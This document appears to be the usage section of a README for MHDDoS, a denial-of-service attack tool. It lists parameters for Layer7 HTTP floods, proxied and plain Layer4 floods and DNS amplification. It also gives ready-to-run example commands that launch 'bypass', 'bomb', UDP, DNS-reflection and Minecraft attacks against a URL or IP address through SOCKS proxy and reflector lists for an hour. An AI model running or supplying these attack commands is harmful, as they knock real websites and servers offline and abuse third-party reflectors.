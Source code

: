 ## Parameters
* Layer7:
  python3 start.py <1=method> <2=url> <3=socks_type> <4=threads> <5=proxylist> <6=rpc> <7=duration> <8=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Proxy Version ([Proxy Usage](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Support-!))
  - 5: Proxy File ([Proxy File Format](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Files))
  - 4: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 5: RPC (Requests pre connection)
  - 6: Duration (Time to finish attack in seconds)
  - 7: Debug Mode (Optional)

* Layer4 Noraml:
  python3 start.py <1=method> <2=ip:port> <3=threads> <4=duration> <5=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Debug Mode (Optional - [What is debug mode](https://github.com/MHProDev/MHDDoS/wiki/what-is-debug-mode))

* Layer4 Proxied:
  python3 start.py <1=method> <2=ip:port> <3=threads> <4=duration> <5=socks_type> <6=proxylist> <7=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Proxy Version ([Proxy Usage](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Support-!))
  - 6: Proxy File ([Proxy File Format](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Files))
  - 7: Debug Mode (Optional)

* Layer4 Amplification:
  python3 MHDDoS/start.py <1=method> <2=ip:port> <3=threads> <4=duration> <5=refelector file> <6=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Reflectors File ([Reflectors File](https://github.com/MHProDev/MHDDoS/wiki/Amplification-ddos-attack))
  - 6: Debug Mode (Optional)


## Examples
* Layer7 (Website):
```shell script
# Running bypass attack from 101 threads, 
# with socks 5, 100 requests per proxy (connection), for 3600 seconds  
python start.py bypass https://example.com 5 101 socks5.txt 100 3600
# Running bomb attack from 50 threads (be careful must be < 300)
# with all proxies (0), 100 requests per proxy (connection), for 3600 seconds
python start.py bomb https://example.com 0 50 proxy.txt 100 3600
```

* Layer4 (Server/Home):
```shell script
# Running udp attack from 1 threads, for 3600 seconds  
python start.py udp 1.1.1.1:53 1 3600
# Running dns attack from 100 threads, for 3600 seconds  
# with reflector servers from dns.txt, for 3600 seconds  
python start.py dns 1.1.1.1:53 100 3600 dns.txt
# Running dns attack from 1000 threads
# with socks 5, for 3600 seconds  
python start.py minecraft 1.1.1.1:53 1000 3600 5 socks5.txt
```

* Debug Mode (Log Attack status):
```shell script
python start.py bypass https://example.com 5 1000 socks5.txt 100 100 true
python start.py udp 1.1.1.1:53 1 100 true
python start.py dns 1.1.1.1:53 1 100 dns.txt true
python start.py minecraft 1.1.1.1:53 1 100 5 socks5.txt true
```

* Tools/Help:
```shell script
python start.py tools
python start.py help
```